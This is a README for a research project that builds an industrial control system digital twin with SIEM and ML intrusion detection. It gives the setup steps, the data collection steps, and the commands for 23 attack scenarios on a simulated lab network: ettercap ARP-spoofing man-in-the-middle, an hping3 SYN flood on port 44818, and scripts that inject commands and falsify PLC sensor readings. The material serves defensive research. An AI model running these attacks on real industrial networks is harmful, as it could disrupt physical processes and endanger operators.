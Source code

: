 # DigitalTwin-SIEM-integration

**Installation**

Installation steps for the whole implementation with Docker Compose are as follows: 
(Please refer https://github.com/FrauThes/DigitalTwin-SIEM-integration/blob/master/README.md for the implementation without the IDS docker container)

1. After installing Docker Compose, clone the repository.
2. Add root user to the local access control list of xhost on "Docker host", not inside container.
    ```
    sudo xhost +si:localuser:root  
    ```
4. Run the init script:
    ```bash
    cd /deployments/docker && sudo sh init.sh
    ```
3. Enter the IP address or Hostname of the server when requested. For example:
    ```
    Enter the Hostname or IP Address where your elasticsearch will be deployed:10.0.2.15
    ```
    At this step, the script is trying to import the Dsiem dashboard to Kibana. This may take a few minutes. Until Kibana is up and running, error messages are shown. This is       normal. Example error message:
    ```
    curl: (22) The requested URL returned error: 503 Service Unavailable
    cannot connect to localhost:5601, will retry in 5 sec ..
    ```
5.  Once the project is ready, access kibana and IDS in browser.
    Kibana port 5601 , IDS (url comes on console) port 8888
    
The Project is up and running. If you want to start it a second time you simply have to navigate to deployments/docker and run `docker-compose up`.

**NOTE**: All the required packages, softwares and libraries are included with Docker. No need of installing these separately.

**Data collection**

Once the docker compose is up, 8 xterm consoles will pop up on the terminal (2 for s1, 2 for plc1, 1 for plc2, 1 for plc3, 1 for hmi and 1 for attacker node).
To trigger data collection, run the following command on hmi terminal
```
python trigger.py <x>
```
Here x corresponds to the minutes for which data (process measuremnets) needs to be collected. For examples, if data needs to be collected for 2 hours, enter x as 120.

The collected dataset is stored as 'data.csv' in logs folder.

Automated labelling of the generated dataset is done in two steps: 

1) Run label.py script to label dataset based on threshold conditions (For command injection and network DoS)
   ```
   python label.py
   ```
2) Run label1.py after step 1 by passing 3 arguments (start_time, end_time and attack type). Results are stored as 'labelled.csv' in the logs folder.
   ```
   python label1.py '2021-07-01 16:04:07.681880' '2021-07-01 16:05:11.900075' Calculated Measurement Modification 
   ```

**Executing attacks**

Note: Launch all attacks from attacker node terminal.

IP to nodes mapping: PLC1 <--> 10.0.0.1, PLC2 <--> 10.0.0.2, PLC3 <--> 10.0.0.3, HMI <--> 10.0.0.4, ATTACKER <--> 10.0.0.5

**Attack scenario 1** (Command injection): Run the following script to launch this attack for x minutes.

    python attack_fdi.py <x>

**Attack scenarios 2, 3, 4** (Network DoS: MitM): Run the following commands for attack scenarios 2, 3, 4, respectively.

    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// /10.0.0.2//
    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// /10.0.0.3//
    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// 

**Attack scenario 5** (Network DoS: TCP SYN flooding)

    hping3 -S -a 10.0.0.4 --flood -V -p 44818 10.0.0.1

**Note**: Attack scenarios 6 till 23 are done using MitM attacks. Attacker node is placed b/w two nodes and IP forwarding is enabled using the following commands.

    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// &
    echo 1 > /proc/sys/net/ipv4/ip_forward

**Attack scenarios 6,7,8** (Naive Measurement Modification): Run the following commands for attack scenarios 6, 7, 8, respectively. These attack scenarios modify the measurements to a constant value.

    python attack_sensor_constant.py PLC2
    python attack_sensor_constant.py PLC3
    python attack_sensor_constant.py BOTH


**Attack scenario 9,10,11 (Naive Measurement Modification): Run the following commands for attack scenarios 9, 10, 11, respectively. These attack scenarios modify the measurements to a random value within the predefined limits of the process measurements.

    python attack_sensor_random_withinlimits.py PLC2
    python attack_sensor_random_withinlimits.py PLC3
    python attack_sensor_random_withinlimits.py BOTH
    
**Attack scenarios 12,13,14 (Calculated Measurement Modification with +ve scaling) and Attack scenarios 15,16,17 (Calculated Measurement Modification with negative scaling). Here, the scaloing factor used is a uniform random value in the range (0,1].

    python attack_sensor_randomp.py PLC2
    python attack_sensor_randomp.py PLC3
    python attack_sensor_randomp.py BOTH
    python attack_sensor_randomn.py PLC2
    python attack_sensor_randomn.py PLC3
    python attack_sensor_randomn.py BOTH


**Attack scenarios 18,19,20 (Calculated Measurement Modification with positive scaling) and Attack scenarios 21,22,23 (Calculated Measurement Modification with negative scaling). Here, the scaling factor used is a fixed value.

    python attack_sensor_scaling.py PLC2 +
    python attack_sensor_scaling.py PLC3 +
    python attack_sensor_scaling.py BOTH +
    python attack_sensor_scaling.py PLC2 -
    python attack_sensor_scaling.py PLC3 -
    python attack_sensor_scaling.py BOTH -


**Running ML-based IDS**

Run ML_based IDS by running the Jupyter notebook ML_IDS.ipynb launched using IDS url. Results of IDS can be seen in 'IDS' dashboard in Kibana.

## Reference
[ARES'20](https://doi.org/10.1145/3407023.3407039)
